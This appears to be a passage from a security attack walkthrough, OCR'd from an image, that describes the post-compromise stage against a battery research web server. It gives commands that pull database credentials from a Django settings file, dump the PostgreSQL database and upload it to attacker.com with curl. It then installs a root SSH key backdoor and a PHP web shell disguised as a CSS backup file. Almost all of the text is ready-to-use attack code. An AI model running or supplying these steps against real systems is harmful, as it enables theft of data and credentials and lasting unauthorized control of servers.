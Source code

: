 ```bash
# From reverse shell on compromised server:

# Step 1: Locate database credentials
cat /var/www/battery-database/settings.py | grep -A 10 DATABASES

# Output:
# DATABASES = {
#     'default': {
#         'ENGINE': 'django.db.backends.postgresql',
#         'NAME': 'battery_db',
#         'USER': 'battery_admin',
#         'PASSWORD': 'P0stgr3s_S3cr3t!',
#         'HOST': 'localhost',
#         'PORT': '5432',
#     }
# }

# Step 2: Connect to PostgreSQL database
PGPASSWORD='P0stgr3s_S3cr3t!' psql -U battery_admin -d battery_db

# Step 3: Dump all tables
pg_dump -U battery_admin battery_db > database_dump.sql

# Step 4: Exfiltrate to attacker server
curl -X POST -F "file=@database_dump.sql" https://attacker.com/upload

# Data stolen:
# - 50,000+ battery material compositions
# - Proprietary electrolyte formulations
# - Performance test results
# - Unpublished research data
# - User accounts and emails
```

##### **Persistence Backdoor (20 min)**

```bash
# Install persistent SSH access
mkdir /root/.ssh
echo "ssh-rsa AAAAB3[attacker-public-key]" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Install web shell for backdoor access
cat > /var/www/battery-database/static/css/bootstrap.css.bak <<EOF
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
EOF

# Access via: https://[target].com/static/css/bootstrap.css.bak?cmd=whoami
```
